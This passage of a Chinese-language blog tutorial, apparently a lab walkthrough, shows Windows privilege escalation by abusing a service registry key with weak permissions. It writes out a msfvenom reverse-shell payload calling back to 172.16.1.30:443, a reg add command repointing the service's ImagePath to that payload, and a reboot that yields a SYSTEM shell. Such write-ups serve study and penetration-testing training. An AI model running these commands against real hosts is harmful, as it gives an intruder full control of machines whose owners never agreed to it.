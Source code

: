 在上面的输出中，可以看到键值“ImagePath”指向了 `C:\Program Files\Juggernaut\Juggernaut.exe` 文件，而这就是服务的启动程序；键值“ObjectName”是 LocalSystem，表示服务以 SYSTEM 身份运行；键值“Start”是 2，表示服务可以通过开机自启动。

又尝试看了一下 `C:\Program Files\Juggernaut\`目录和 Juggernaut.exe 文件的权限，发现我们并没有写入的权限（权限标识中没有出现 F、M、W 这些字符）。

    icacls "C:\Program Files\Juggernaut\Juggernaut.exe"
    icacls "C:\Program Files\Juggernaut"
    

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250321193923106-427288519.png)

此时，有趣的地方出现了。虽然我们没有服务启动程序所在目录和文件的修改权限，但由于我们有权限修改该服务的注册表项，因此就可以通过更改服务注册表键值“ImagePath”的路径来指向我们控制的文件。

由于这项服务是可以自启动的，而我们又拥有该主机的重启操作，因此我们就可以通过重启系统来强制重启服务。

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250321193922657-802249136.png)

**

3、利用服务的弱权限注册表项

**
----------------------

#### **

3.1、制作恶意程序

**

接着，我们需要制作一个恶意程序以供利用使用：

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.16.1.30 LPORT=443 -a x64 --platform Windows -f exe -o pwnt.exe
    

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250321193921464-431853120.png)

准备就绪后，我们将其转移到受害者机器上。

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250321193920928-1159788155.png)

#### **

3.2、利用注册表键

**

接下来，我们需要做的第一件事就是更改 Juggernaut 服务注册表键值上的 ImagePath，使其指向我们受控的恶意程序。可以使用以下命令来完成这项工作：

    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Juggernaut" /v ImagePath /t REG_EXPAND_SZ /d "C:\temp\pwnt.exe" /f
    

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250321193920587-213909770.png)

成功修改 ImagePath 以指向受控的恶意程序后，我们需要返回攻击者机器，启动一个 443 端口的 netcat 监听器，然后重启受害者主机。

    shutdown /r /t 0
    

等待大约20秒钟后，回到监听器，看到我们获得了一个 SYSTEM shell！

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250321193921670-1030364352.png)